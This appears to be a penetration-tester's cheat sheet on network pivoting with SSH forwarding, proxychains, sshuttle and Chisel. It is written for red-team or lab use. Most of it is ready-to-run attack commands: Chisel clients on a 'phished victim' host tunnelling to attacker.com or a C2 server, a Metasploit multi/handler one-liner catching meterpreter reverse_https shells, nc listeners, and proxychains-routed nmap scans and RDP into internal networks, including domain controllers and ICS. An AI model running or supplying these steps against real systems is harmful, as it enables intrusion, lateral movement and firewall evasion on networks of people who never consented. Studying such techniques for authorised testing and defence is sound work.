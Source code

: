 # SSH Tunneling + SSHuttle and Chisel


Used for pivoting

## Local port forwarding
```bash
ssh -v -N -L localPort:targetIp:targetPort user@sshGateway <-i private_key>
```

## Remote port forwarding
* Below is the preparation that is needed to be done on the SSH Server(Pivot)
```bash
sudo echo "GatewayPorts clientspecified" >> /etc/ssh/sshd_config
sudo systemctl restart ssh
```
* Command:
```bash
ssh -R sshGatewayIp:sshGatewayPort:localIp:localPort user@sshGateway
ssh -R 127.0.0.1:2222:127.0.0.1:22 ubuntu@11.22.33.44
```

## Dynamic port forwarding with proxychains
* Has limitations: Produces inaccurate results (i.e. nmap)[^2][^3][^4]

* Proxychains preparation (Change localPort):
```bash
# Normal
sudo echo "socks4 127.0.0.1 localPort" >> /etc/proxychains.conf
```
* Command to establish connection(Basic command is just "-D"):
```bash
ssh -NfD localPort user@sshGateway
```
* Make use of proxychains:
```bash
proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
proxychains msfconsole 
proxychains rdesktop targetIP -u user -p password -g 90%
proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
proxychains firefox
```

## Dynamic port forwarding with SSHuttle
* **Recommended** and does not need root on pivot machine)
* Has limitations: Does not really work with nmap
   * Use a [static nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) instead on the compromised host
   
```bash
sshuttle -v -r user@sshGateway network/netmask

# Using public key authentication:
sshuttle -v -r user@sshGateway network/netmask -e 'ssh -i /path/to/private_key'
```

## Chisel
* **Recommended** and does not need root on pivot machine) [^5]
* Alternative for SSH(Local, Remote and Dynamic) especially on pivoting machines
    * Built on Go
    * Has ready made binary releases on Github which works on a lot of Operating Systems[^6]
        * Better to compile though
   
```bash
# Server (On your attacking machine[Kali])
./chisel server -v -p 8000 --reverse

# Port Forwarding (Commonly on the 1st compromised machine [Pivot Machine])
## Listen on Kali 4444/tcp, forward to 10.10.10.240 port 80
./chisel client -v <YOUR_KALI_IP>:8000 R:4444:10.10.10.240:80

```
* Remote/Reverse Forwarding (for *reverse connections* [i.e. reverse_tcp])
    * Quick Diagrams for the visual people
        * [INTERNET_ISOLATED_MACHINE] --> [Pivot_Machine] --(FIREWALL)--(INTERNET)-- [C2/Kali]
        * making it seamless as if:
        * [INTERNET_ISOLATED_MACHINE] =============================================> [C2/Kali]
    * From Kali: `./chisel server -v -p 8000 --reverse` From C2: `./chisel server -v -p 443 --reverse` 
    * Commonly on the 1st compromised machine [Pivot Machine]
        * Let us call this [Pivot Machine]: *PHISHEDVICTIM01.acme.local*
        * *BEWARE*: May trigger _Windows Firewall Allow/Deny_ pop-up window on this host upon running. May need to allow first or create a manual firewall entry via cli or choose a firewall port already allowed but unused by a service.
        * The command below will direct any traffic it receives on 3333/tcp to your Kali 3333/tcp
            ```batch
            chisel.exe client -v <YOUR_KALI_IP>:8000  3333:127.0.0.1:3333
            #OR
            chisel.exe client -v <YOUR_C2_domain>:443 3333:127.0.0.1:3333
            ```
    * After the command above, execute the command below on your Kali/c2 machine or something similar (i.e. `exploit/multi/handler`)
        ```bash
        nc -lnvp 3333
        #OR
        msfconsole -q -x "use exploit/multi/handler;set LPORT 3333; set LHOST eth0; set payload windows/x64/meterpreter/reverse_https;run -jz"
        ```
    * Now on the isolated target/victim machine (without direct connection to your C2/Kali) like the DC or ICS.
        * Test
            ```batch
            curl.exe PHISHEDVICTIM01.acme.local:3333
            ```
        * Use a one-liner powershell
        * C2 payload to point to `PHISHEDVICTIM01.acme.local:3333`

* Chisel Socks Proxy
    * Using `reverse` command
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            ./chisel server -v -p 8000 --reverse
            sudo echo "socks5 127.0.0.1 1080" > /etc/proxychains.conf
            ```
        1. On the client/target/victim machine
            ```bash
            chisel.exe client -v <c2/kali_IP>:8000 R:socks
            or
            chisel.exe client -v attacker.com:8000 R:socks
            or
            chisel.exe client -v 192.168.1.5:8000 R:socks
            ```
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
            ssh -NfD 1080 127.0.0.1
            proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
            proxychains msfconsole 
            proxychains rdesktop targetIP -u user -p password -g 90%
            proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
            proxychains firefox
            ```
    * Using `socks5` command
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            ./chisel server -v -p 8000 --socks5
            ```
        1. On the client/target/victim machine
            ```bash
            chisel.exe client -v <c2/kali_IP>:8000 socks
            or
            chisel.exe client -v attacker.com:8000 socks
            or
            chisel.exe client -v 192.168.1.5:8000 socks
            ```
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
            ssh -NfD 1080 127.0.0.1
            proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
            proxychains msfconsole 
            proxychains rdesktop targetIP -u user -p password -g 90%
            proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
            proxychains firefox
            ```
    * TIP
        * If the chisel server is on a cloud C2, and you want to connect from your kali(separate machine)
            * Perform step **c.** on your Kali instead, no need to do it on the chisel server(c2)
                * Just change `ssh -NfD 1080 127.0.0.1` to `ssh -NfD 1080 ubuntu@c2domain.com`


[^1]: [not so pro](https://blog.notso.pro/2019-10-24-tactical-debriefing1/)
[^2]: [MrW0r57](https://mrw0r57.github.io/2020-05-31-linux-post-exploitation-10-4/)
[^3]: [CodeProject - Grant Curell](https://www.codeproject.com/tips/634228/how-to-use-proxychains-forwarding-ports)
[^4]: [NetSec](https://netsec.ws/?p=278)
[^5]: [Download from Github](https://github.com/jpillora/chisel)
[^6]: [0xdf](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

